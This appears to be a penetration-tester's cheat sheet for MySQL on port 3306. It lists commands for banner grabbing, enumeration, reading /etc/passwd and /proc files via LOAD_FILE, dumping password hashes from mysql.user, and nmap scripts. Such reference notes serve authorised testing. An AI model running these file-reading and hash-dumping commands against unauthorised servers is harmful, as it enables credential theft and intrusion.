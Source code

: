 # Manual

## 01 - Banner Grab

```
$ nc -v <IP> 3306

$ telnet <IP> 3306
```

## 02 - Usage

### 1.1 - Authenticate

```
$ mysql [-h <IP>] -u <username>

$ mysql [-h <IP>] -u <username> -p <password>
```

TODO: Re-arrange from this section to post exploitation under **Enumeration and Discovery**

### 1.2 - MySQL Version

- MySQL service version

```
MySQL [(none)]> SELECT VERSION();
```

### 1.3 - Operating System

Enumerate OS

```
MySQL [(none)]> SHOW VARIABLES LIKE "%version%";

MySQL [(none)]> SELECT LOAD_FILE('/etc/issue');

MySQL [(none)]> SELECT LOAD_FILE('/proc/self/environ');

MySQL [(none)]> SELECT LOAD_FILE('/proc/self/cmdline');

MySQL [(none)]> SELECT LOAD_FILE('/proc/self/arp');

MySQL [(none)]> SELECT LOAD_FILE('/etc/os-release');

MySQL [(none)]> SELECT LOAD_FILE('/proc/mounts');
```

### 1.3 - Database

#### 1.3.1 - List databases

```
MySQL [(none)]> SHOW DATABASES;
```

#### 1.3.2 - Retrieve Tables

Select database

```
MySQL [(none)]> USE <database>;
```

Show tables

```
MySQL [database_name]> SHOW TABLES;
```

Enumerate field

```
MySQL [database_name]> DESCRIBE <table_name>;
```

Display records from a table

```
MySQL [database_name]> SELECT * FROM <table_name>;

MySQL [(none)]> SELECT @@datadir;

MySQL [(none)]> SHOW VARIABLES WHERE Variable_Name LIKE "%dir";
```

#### 1.3.3 - Hashdump Credentials

- Method 1:

```
MySQL [(none)]> SELECT user,authentication_string from mysql.user;

MySQL [(none)]> SELECT user,password from mysql.user;
```

- Method 2:

```
MySQL [(none)]> use mysql;

MySQL [(mysql)]> SELECT user,authentication_string from user;

MySQL [(mysql)]> SELECT user,password from user;
```

### 1.4 - Enumerate Users

#### 1.4.1 - Discover users connected to the compromised MySQL database server

```
MySQL [(none)]> SELECT USER();

MySQL [(none)]> SELECT LOAD_FILE('/etc/passwd');
```

### 1.5 - Privilege Escalation

TODO: Finish the enumeration part for escalating to root/admin privileges

#### 1.5.1 - Discover what privileges does the user have access

```
MySQL [(none)]> SHOW PRIVILEGES;
```

These two are the most critical ways other than the basic query SQL commands just to get a reverse shell and escalate privileges for abusing the UDF MySQL feature. Look at the [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/Service Exploits/MySQL/Unix Shell|Service Exploits]] section.

```
MySQL [(none)]> SHOW PRIVILEGES \G;

*************************** <number>. row ***************************
Privilege: Execute
  Context: Functions,Procedures
  Comment: To execute stored routines
*************************** <number>. row ***************************
Privilege: File
  Context: File access on server
  Comment: To read and write files on the server

MySQL [(none)]> SELECT user,host FROM mysql.user;

MySQL [(none)]> SHOW GRANTS FOR <username>@<IP>;
```

### 2.4 - Database

#### 2.4.1 - Retrieve Users

```
$ nmap -p 3306 --script mysql-users --script-args="mysqluser='<username>',mysqlpass='<password>'" <IP>
```

#### 2.4.2 - Retrieve Databases

```
$ nmap -p 3306 --script mysql-databases --script-args="mysqluser='<username>',mysqlpass='<password>'" <IP>
```

#### 2.4.3 - Retrieve Variables

```
$ nmap -p 3306 --script mysql-variables --script-args="mysqluser='<username>',mysqlpass='<password>'" <IP>
```

#### 2.4.4 - Hashdump

```
$ nmap -p 3306 --script mysql-dump-hashes --script-args "username='<username>',password='<password>'" <IP>
```

---
## References

- [Hacktricks: Pentesting MySQL](https://book.hacktricks.xyz/pentesting/pentesting-mysql)

- [SQL Injection](https://www.websec.ca/kb/sql_injection)

- [MySQL Show Privileges Statement](https://www.tutorialspoint.com/mysql/mysql_show_privileges_statement.htm)

- [MySQL Show User Privileges](https://phoenixnap.com/kb/mysql-show-user-privileges)

- [How to Find The MySQL Data Directory From Command Line in Windows](https://stackoverflow.com/questions/17968287/how-to-find-the-mysql-data-directory-from-command-line-in-windows)

- [Hacking Articles: MySQL Penetration Testing Nmap](https://www.hackingarticles.in/mysql-penetration-testing-nmap/)

- [Hacking Articles: Penetration Testing on MySQL Port 3306](https://www.hackingarticles.in/penetration-testing-on-mysql-port-3306/)

- [Metasploit Unleashed: Admin MySQL Auxiliary Modules](https://www.offensive-security.com/metasploit-unleashed/admin-mysql-auxiliary-modules/)